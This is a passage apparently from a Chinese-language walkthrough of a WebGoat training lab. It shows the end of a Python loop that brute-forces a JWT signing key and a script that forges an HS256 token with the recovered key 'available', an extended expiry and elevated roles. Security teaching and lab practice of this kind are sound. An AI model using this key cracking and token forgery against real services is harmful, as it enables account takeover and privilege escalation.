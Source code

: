 ```python
                #print('\r', '\bbingo! found key -->', termcolor.colored(key_, 'green'), '<--')
                print('\r','the key is [',key_,']')
                break
            except jwt.exceptions.InvalidSignatureError:
                print('\r', ' ' * 64, '\r\btry', key_, end='', flush=True)
                continue
        else:
            print('\r', '\bsorry! no key be found.')
```

![image-20230607191917485](../../../images/image-20230607191917485.png)

```python
import jwt

token = jwt.encode(
{
  "iss": "WebGoat Token Builder",
  "aud": "webgoat.org",
  "iat": 1686136171,
  "exp": 1786136231,   # 修改jwt到期时间
  "sub": "tom@webgoat.org",
  "username": "WebGoat", # 按题目要求修改名字
  "Email": "tom@webgoat.org",
  "Role": [
    "Manager",
    "Project Administrator"
  ]
}
,algorithm="HS256",key="available")

print(token)
```

将生成的token提交即可

![image-20230607192326261](../../../images/image-20230607192326261.png)
